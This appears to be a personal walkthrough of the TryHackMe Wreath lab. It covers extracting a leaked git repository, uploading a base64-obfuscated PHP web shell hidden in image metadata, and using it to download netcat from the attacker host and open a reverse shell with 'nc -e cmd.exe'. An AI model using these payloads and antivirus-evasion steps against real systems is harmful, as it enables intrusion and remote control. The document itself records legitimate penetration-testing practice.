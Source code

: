 From the downloaded Website.git we now will extract the files

now using the tool GitTools we will extract the files from .git we got

`./extractor.sh /home/sp00f/THM/Wreath/10.200.109.150/loot/Website.git/ /home/sp00f/THM/Wreath/10.200.109.150/loot/Website.git/`
![[Screenshot 2021-04-30 at 10.01.22 PM.png]]

we now have 3 commits
![[Screenshot 2021-04-30 at 10.01.48 PM.png]]

to get the commit order
`separator="======================================="; for i in $(ls); do printf "\\n\\n$separator\\n\\033\[4;1m$i\\033\[0m\\n$(cat $i/commit-meta.txt)\\n"; done; printf "\\n\\n$separator\\n\\n\\n"`

![[Screenshot 2021-04-30 at 10.06.33 PM.png]]

On looking, the commit hashes and stuff 
we saw the commit order:
```
2-70dde80cc19ec76704567996738894828f4ee895 -> 1-82dfc97bec0d7582d485d9031c09abcb5c6b18f2 -> 0-345ac8b236064b431fa43f53d91c98c4834ef8f3
```

review the code. and there is /resources page and we can upload image with conditions but we have to login first.

login creds :

`Thmomas:i<3ruby`

and we can upload 

![[Screenshot 2021-04-30 at 11.36.08 PM.png]]

updating a static image for poc that we can execute php via images so that AV wont alert the user
`exiftool -Comment="<?php echo \\"<pre>Test Payload</pre>\\"; die(); ?>" sp00f.png.php`

and by selecting all types we can upload the file
![[Screenshot 2021-04-30 at 11.54.30 PM.png]]

and here the file. poc ie. We have the ability to execute arbitrary PHP code on the system!
![[Screenshot 2021-04-30 at 11.55.01 PM.png]]


we will upload the php webshell

```php
<?php  
 $cmd = $\_GET\["wreath"\];  
 if(isset($cmd)){  
 echo "<pre>" . shell\_exec($cmd) . "</pre>";  
 }  
 die();  
?>
```

Now we have to obscure the php shell using  https://www.gaijin.at/en/tools/php-obfuscator

```php
<?php $q0=$_GET[base64_decode('d3JlYXRo')];if(isset($q0)){echo base64_decode('PHByZT4=').shell_exec($q0).base64_decode('PC9wcmU+');}die();?>
```

changing the exploit cause php might read the `$` following as the variables

```php
<?php \$q0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$q0)){echo base64_decode('PHByZT4=').shell_exec(\$q0).base64_decode('PC9wcmU+');}die();?>
```

embed the image using exiftool
![[Screenshot 2021-05-01 at 1.48.03 PM.png]]

and we uploaded the web shell

![[Screenshot 2021-05-01 at 1.58.40 PM.png]]

by passing the appropriate flags we can get the web shell

http://10.200.89.100/resources/uploads/sp00f_1.png.php?wreath=systeminfo

![[Screenshot 2021-05-01 at 2.01.51 PM.png]]

Further to get the reverse shell we have to upload netcat and without AV to detect it.

using `git clone https://github.com/int0x33/nc.exe/`

changing the Makefile and remove the default nc.exe and nc64.exe
![[Screenshot 2021-05-01 at 2.16.32 PM.png]]

and `make 2>/dev/null`

![[Screenshot 2021-05-01 at 2.19.16 PM.png]]

and we uploaded it using curl
`http://10.200.89.100/resources/uploads/sp00f_1.png.php?wreath=curl http://10.50.90.103/nc.exe -o c:\\windows\\temp\\nc-sp00f.exe`

execute the netcat binary using powershell and listen on port

`http://10.200.89.100/resources/uploads/sp00f_1.png.php?wreath=powershell.exe c:\\windows\\temp\\nc-sp00f.exe 10.50.90.103 443 -e cmd.exe`
 
and we got the reverse shell 

![[Screenshot 2021-05-01 at 2.29.44 PM.png]]


